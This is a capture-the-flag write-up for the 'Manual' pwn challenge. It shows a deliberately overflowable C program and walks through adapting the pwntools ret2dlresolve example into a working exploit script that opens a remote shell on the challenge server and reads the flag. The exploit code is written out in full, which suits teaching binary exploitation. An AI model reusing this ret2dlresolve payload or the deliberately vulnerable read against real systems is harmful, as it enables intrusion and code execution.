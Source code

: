 # Manual
---

### Challenge Description

No gadgets?

nc challenge1.lagncrash.com 10001

[manual.zip](https://github.com/caprinux/LagNCrash/files/6129967/manual.zip)

---

### Solution

We are provided with the source code and the binary ELF executable once again.

You know the drill.

```c
$ pwn checksec manual
[*] '/media/sf_Kali_Linux/manual'

    Arch:     i386-32-little

    RELRO:    No RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x8048000)

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	vuln();
}

int vuln(void){
	char buf[128];
	read(0, buf, 300);
	return 0;
}
```

Okay, we tried many things, from trying some ROP to spamming support tickets to ask for libc library, but there was something we weren't seeing.

Legend has it that: When in doubt, google.

If you attempt to copy the whole checksec into google, the very second entry provides a writeup to a similar challenges. 

After reading it for some time, we realise that this challenge had something to do with ``RET2DLRESOLVE``.

Once again, when in doubt, google.

After looking around for quite some time, we arrive at a [pwntools page on ret2dlresolve](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html). 

After reading for some time again, we figured that this was what we were looking for.

This pwntool page featured a block of code using ret2dlresolve to pwn an example code that looked just like manual.

As a script kiddie, I copied the code from the website and tried to implement it for manual.

What I copied from the site:

```py
>>> context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
>>> rop = ROP(context.binary)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:        0x80482e0 read(0, 0x804ae00)
0x0004:        0x80484ea <adjust @0x10> pop edi; pop ebp; ret
0x0008:              0x0 arg0
0x000c:        0x804ae00 arg1
0x0010:        0x80482d0 [plt_init] system(0x804ae24)
0x0014:           0x2b84 [dlresolve index]
0x0018:          b'gaaa' <return address>
0x001c:        0x804ae24 arg0
>>> p = elf.process()
>>> p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
>>> p.recvline()
b'pwned\n'
```

After clearing some stuff and changing into a script format, we get:
```py
from pwn import *

context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())

p = elf.process()
p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
p.recvline()
```

We change some of the more obvious stuff, such as changing the offsets from 64 to 128 and 200 to 300 according to the manual source code.
We change the argument from echo pwned to /bin/bash so we can get shell.
We change elf.process such that it connects to the remote server.
Now we execute the following:

```py
from pwn import *

context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/bash"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())

p = remote('challenge1.lagncrash.com', 10001)
p.sendline(fit({128+context.bytes*3: raw_rop, 300: dlresolve.payload}))
p.recvline()
```

We receive an error.

```py
Traceback (most recent call last):

  File "/media/sf_Kali_Linux/testingformanual", line 2, in <module>

    context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))

  File "/usr/local/lib/python3.9/dist-packages/pwnlib/elf/elf.py", line 215, in __init__

    self.file = open(path,'rb')

FileNotFoundError: [Errno 2] No such file or directory: '/usr/local/lib/python3.9/dist-packages/pwnlib/data/elf/ret2dlresolve/i386'
```

With some googling, we managed to find that ELF actually can just take in a binary file.

Hence we replace pwnlib.data.elf.ret2dlresolve.get('i386') with 'manual'

We execute it again and this time we connected to the shell and nothing happens.

Looks like we forgot to change p.recvline() to p.interactive()


```py
from pwn import *

context.binary = elf = ELF('manual')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/bash"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())

p = remote('challenge1.lagncrash.com', 10001)
p.sendline(fit({128+context.bytes*3: raw_rop, 300: dlresolve.payload}))
p.interactive()
```

We now get a shell and if we list the files in the pwd, we see flag.txt.

We open flag.txt and we get the flag.

```
$ cat flag.txt
LNC{R350Lv3_7h15_4_M3}
```



